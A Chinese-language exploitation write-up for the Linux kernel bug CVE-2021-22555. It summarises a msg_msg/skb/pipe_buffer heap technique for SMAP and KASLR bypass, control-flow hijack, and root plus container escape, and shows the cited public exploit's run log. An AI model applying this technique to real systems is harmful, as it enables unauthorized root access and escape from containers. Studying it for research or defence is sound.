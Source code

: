 利用总结：

1. 构造4096个`msg_msg`主消息（0x1000）和辅助消息（0x400），
利用2字节溢出写0来修改某个主消息的`msg_msg->m_list->next`低2字节，使得两个主消息指向同一个辅助消息，将2字节溢出写0转化为UAF。
2. 注意，spray对象采用skb对象，victim对象采用pipe()管道中的pipe_buf_operations结构。首先利用skb改大`msg_msg->m_ts`，泄露相邻辅助消息的`msg_msg->m_list->prev`（主消息地址，也即0x1000堆块地址）；
3. 再利用skb伪造`msg_msg->next`指向泄露的主消息地址，泄露`msg_msg->m_list->next`（辅助消息地址，也即0x400堆块地址）；
4. 再利用skb伪造`msg_msg->m_list->next & prev`，以避免再次释放辅助消息时访问无效链表地址导致崩溃；
5. 使`pipe_buffer`结构占据释放后的0x400空闲块，利用读skb泄露其ops指针，也即内核基址；
6. 利用skb篡改`pipe_buffer->ops->release`指针，劫持控制流。
7. 如果需要进行docker或k8s容器逃逸，则ROP链在执行`commit_creds(prepare_kernel_cred(0))`提权后，需执行`switch_task_namespaces(find_task_by_vpid(1), init_nsproxy)`，以替换exp进程的命名空间。

# 利用exp

```c
/* https://github.com/google/security-research/blob/master/pocs/linux/cve-2021-22555/exploit.c
 * compile exp: $ gcc -m32 -static -o exploit exploit.c
* 
 * /exp $ uname -a
 * Linux (none) 5.11.14 #2 SMP Tue Sep 21 17:46:57 PDT 2021 x86_64 GNU/Linux
 * /exp $ id
 * uid=1000(chal) gid=1000(chal) groups=1000(chal)
 * /exp $ ./exploit
 * [+] STAGE 0: Initialization
 * [*] Setting up namespace sandbox...
 * [*] Initializing sockets and message queues...

 * [+] STAGE 1: Memory corruption
 * [*] Spraying primary messages...
 * [*] Spraying secondary messages...
 * [*] Creating holes in primary messages...
 * [*] Triggering out-of-bounds write...
 * [   14.229356] x_tables: ip_tables: icmp.0 match: invalid size 8 (kernel) != (user) 3850
 * [*] Searching for corrupted primary message...
 * [+] fake_idx: ffb
 * [+] real_idx: feb

 * [+] STAGE 2: SMAP bypass
 * [*] Freeing real secondary message...
 * [*] Spraying fake secondary messages...
 * [*] Leaking adjacent secondary message...
 * [+] kheap_addr: ffff888008392000
 * [*] Freeing fake secondary messages...
 * [*] Spraying fake secondary messages...
 * [*] Leaking primary message...
 * [+] kheap_addr: ffff8880087a0000

 * [+] STAGE 3: KASLR bypass
 * [*] Freeing fake secondary messages...
 * [*] Spraying fake secondary messages...
 * [*] Freeing sk_buff data buffer...
 * [*] Spraying pipe_buffer objects...
 * [*] Leaking and freeing pipe_buffer object...
 * [+] anon_pipe_buf_ops: ffffffff8223e140
 * [+] kbase_addr: ffffffff81000000

 * [+] STAGE 4: Kernel code execution
 * [*] Spraying fake pipe_buffer objects...
 * [*] Releasing pipe_buffer objects...
 * [*] Checking for root...
 * [+] Root privileges gained.

```